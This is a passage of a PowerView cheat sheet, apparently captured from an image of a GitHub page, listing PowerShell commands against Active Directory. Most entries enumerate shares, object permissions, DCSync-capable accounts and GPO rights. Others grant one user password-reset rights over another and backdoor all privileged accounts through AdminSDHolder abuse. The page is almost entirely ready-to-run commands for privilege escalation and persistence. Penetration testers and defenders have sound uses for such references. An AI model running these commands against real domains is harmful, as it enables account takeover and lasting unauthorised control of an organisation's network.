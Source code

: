 ```bash
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("DOMAIN\user",$Password)
Find-InterestingDomainShareFile -Domain DOMAIN -Credential $Credential
```
## enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names
```bash
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```
## grant user 'will' the rights to change 'matt's password
```bash
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```
## audit the permissions of AdminSDHolder, resolving GUIDs
```bash
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```
## backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
```bash
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```
## retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
```bash
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}
```
## find linked DA accounts using name correlation
```bash
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=*$a*)" -Properties displayname,samaccountname}
```
## save a PowerView object to disk for later usage
```bash
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml
```
## Find any machine accounts in privileged groups
```bash
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}
```
## Enumerate permissions for GPOs where users with RIDs of > -1000 have some kind of modification/control rights
```bash
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
```
## find all policies applied to a current machine
```bash
Get-DomainGPO -ComputerIdentity windows1.testlab.local
```
